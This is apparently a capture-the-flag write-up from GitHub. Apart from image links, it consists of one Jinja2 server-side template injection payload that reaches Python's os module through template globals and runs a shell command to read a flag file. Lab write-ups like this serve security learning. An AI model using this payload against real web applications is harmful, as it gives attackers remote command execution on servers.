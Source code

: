<img width="623" height="291" alt="image" src="https://github.com/user-attachments/assets/95371d99-f5dd-4b47-9a1c-b0f69da84f2f" />
<img width="1073" height="318" alt="image" src="https://github.com/user-attachments/assets/f6684191-a4de-4b97-a1a9-3da985c17189" />
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
<img width="1919" height="334" alt="image" src="https://github.com/user-attachments/assets/2d8d09fe-76cd-42f2-ae00-04a2a0a7300c" />
<img width="929" height="801" alt="image" src="https://github.com/user-attachments/assets/1e7fac76-8df3-46a8-9ba2-81a2c2e730df" />
